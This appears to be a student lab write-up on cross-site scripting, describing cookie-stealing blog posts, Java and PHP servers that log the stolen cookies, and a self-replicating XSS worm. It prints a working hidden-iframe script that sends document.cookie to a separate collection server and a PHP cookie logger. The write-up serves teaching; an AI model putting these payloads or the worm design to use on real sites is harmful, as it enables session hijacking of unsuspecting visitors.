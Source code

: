 # XSS-Attack
Cross-Site Scripting Attack

#### Alice adds to her blog an entry that contains a JavaScript code that shows
their cookies to the users who visit her blog
Here we added simple JavaScript code to print cookie of user who have just entered to see blog
posts of Alice.

#### Tcp and Web Server

We first tried to write simple tcp server in Java. We have used Server Socket to listen port and
accept data from sender. Operating System doesn't allow us to listen 6000 port. We have changed
that to 6001 in Java.
Buffered Reader was used to get input data from sender then File Writer writes data to cookies text
file. The second parameter of File Writer enables append function. We set true to append string
repeatedly to an existing file. There is a header list for header part of message and body string for
the body part. Data comes in two part separated by new line. If line is empty that means header part
of message has been sent and next part will be the body part of the message. Also all of these were
written in an infinite loop. That means server keeps accepting data until user closes program.

Web Server part of task actually was a little hard to implement in PHP than Java. First we have set
time limit to zero. Time limit is the number of seconds a script is allowed to run. Default limit is 30
seconds. Zero means no time limit specified. We have create socket using socket_create function.
AF_INET is IPV4 Internet based protocols. TCP and UDP are common protocols of this protocol
family. SOCK_STREAM provides reliable and full-duplex byte streams. TCP protocol is based on
this socket type. The last parameter in socket_create function is protocol. If the desired protocol is
TCP, or UDP the SOL_TCP and SOL_UDP can also be used. Socket_bind used to bind host and
port to socket. Socket_listen function has been used to listen incoming connections on socket.
Second parameter is backlog parameter that determines maximum of incoming connections will be
queued for processing. We have set this number to 3. If a request arrives with the queue full then
client may receive error message but if the protocol supports (underlying) retransmission, request
will be ignored so that retries may succeed. Socket_accept accepts connection on a socket. If there
are multiple connections on queue first connection on the queue will be accepted. Socket_read reads
data from incoming connection and returns data as a string. Second parameter determines length of
data that will be read by socket_read function. Trim function return a string that whitespace stripped
from beginning and end of string. Trim function also can strip characters such a tab, newline etc.
The last function is socket_close which closes the opened socket. (We cannot put it right after an
infinite loop in Java) We had a problem with printing output to web page as a table. So we have just
printed output to terminal. We could not receive data from incoming connection.

We have printed received data to terminal. Outputs of users who viewed Alice's blog.

#### Another PHP WebServer

Another way of using php webserver is using iframes instead of sockets. Attacker can post a
javascript code which creates an iframe, with source of our webserver. It can pass parameters (in
this scenario, cookies of the visitor) to webserver and if webserver saves them in a file, we can
effectively listen and log cookies of users at target webserver.

Example JS code which creates hidden iframe:

```
<script>document.write(\'<iframe src="http://localhost:8888/xss/index.php?
q=\'+escape(document.cookie)+\'" height=0 width=0 />\');</script>
```

And example php server, which collects and saves cookies:

```
<?php
$cookie = $_GET['q'];
$myfile = file_put_contents('cookies.txt', $cookie.PHP_EOL , FILE_APPEND);
?>
```

#### JavaScript (XSS Worm)

In this part, we have created an XSS Worm. Which means that, after first attacker posted it's
code, it affects any user that visited attacker's blog, and makes them another infecter.

It works like this:

Alice (Attacker), posts malicious code.
Bob (Innocent), visits Alice's blog and gets infected.
Dan (Innocent), visits Bob's (infected) blog and gets infected.
Eve (Innocent), visits Dan's (infected) blog and gets infected, etc.

Malicious code contains 2 parts.

First part, fetches malicious code from another webserver.
Second part, finds victim's session id and makes a request to “add-to-your-blog” page, using
victim's cookie. By this way, victim posts malicious code to his/her own blog.

Code at the webserver contains the same code which attacker used at first. Which means,
every user just replicates attacker's code to infect other visitors.

To make requests, we used xmlHttpRequest. To make them synchronous, code waits for the
first request (fetch malicious code from server), then makes second request (add malicious
code to target site).

To avoid conflicts, we added this header to our webserver.

`header("Access-Control-Allow-Origin: *");`

This code makes possible to send requests to the server from another domains.

